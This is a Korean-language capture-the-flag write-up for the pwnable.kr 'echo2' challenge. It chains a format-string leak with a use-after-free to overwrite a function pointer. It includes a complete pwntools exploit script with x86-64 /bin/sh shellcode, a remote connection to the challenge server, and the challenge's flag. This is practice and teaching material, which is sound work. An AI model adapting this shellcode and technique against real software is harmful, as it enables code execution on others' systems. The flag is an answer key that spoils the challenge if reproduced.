

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

파일 정보를 확인하자.

```sh
root@ubuntu:~# checksec echo2
[*] '/root/echo2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

서버에 접속하면 BOF echo는 not supported 상태이고 FSB와 UAF echo는 작동한다.

```
nc64.exe pwnable.kr 9011
hey, what's your name? : aa

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 1
not supported
```

o객체의 초기화 과정을 보자.

처음 40byte를 할당 받고, 다음과 같은 구조를 가진다.

||||
|:--:|:--:|:--:|
|24byte|greetings addr(8byte)|byebye addr(8byte)|


그 이후 name을 입력받는 데, 24글자를 받고 이를 o객체의 24byte에 넣고, echo1문제와 마찬가지로 id에는 첫 4byte만 넣는다.


exit를 하면 cleanup함수를 호출한다. cleanup함수에는 free를 호출한다.


이후 "Are you sure you want to exit? (y/n)"이 나오면 n을 누른 뒤 다시 UAF echo를 들어가면 32byte를 할당하는데

이는 o객체의 name(24byte)와 greetings addr(8byte)를 할당받아 오버라이트 할 수 있다.


FSB echo도 32byte를 받는데 EBP의 주소를 확인할 수 있다.

    %X%X%X%X%X%X%X%X%X %llX



o객체가 아닌 초기에 입력받는 name의 스택주소는 EBP - 0x20이기 때문에 FSB echo를 통해 name의 주소를 확인할 수 있다.


따라서 Payload는 다음과 같다.

    1. name : Shell Code (< 24byte)
    2. FSB echo를 이용하여 %X%X%X%X%X%X%X%X%X %llX를 전달하여 EBP 주소 얻기
    3. exit을 이용하여 o객체 free
    4. UAF echo를 이용하여 greetings 주소를 name의 주소(EBP - 0x20)로 덮기
    5. greetings 호출

FLAG를 얻어내자.

```py
from pwn import *

FSB         = "%X%X%X%X%X%X%X%X%X %llX"
#shell_code  = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
SHELL_CODE  = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

r = remote('pwnable.kr', 9011)
r.recvuntil('hey, what\'s your name? : ')
r.sendline(SHELL_CODE)

r.recvuntil('> ')
r.sendline('2')
r.recvuntil(SHELL_CODE + '\n')
r.sendline(FSB)
EBP         = int(r.recvline().split()[-1].decode(), 16)
NAME_ADDR   = p64(EBP - 0x20)

r.recvuntil('> ')
r.sendline('4')
r.recvuntil('Are you sure you want to exit? (y/n)')
r.sendline('n')

r.recvuntil('> ')
r.sendline('3')
r.recvline()
PAYLOAD     = b'A' * 24
PAYLOAD     += NAME_ADDR
r.sendline(PAYLOAD)

r.recvuntil('> ')
r.sendline('1')
r.sendline('cat flag')
r.recvline()
print(r.recvline().decode().strip())
```


# **FLAG**

**fun_with_UAF_and_FSB :)**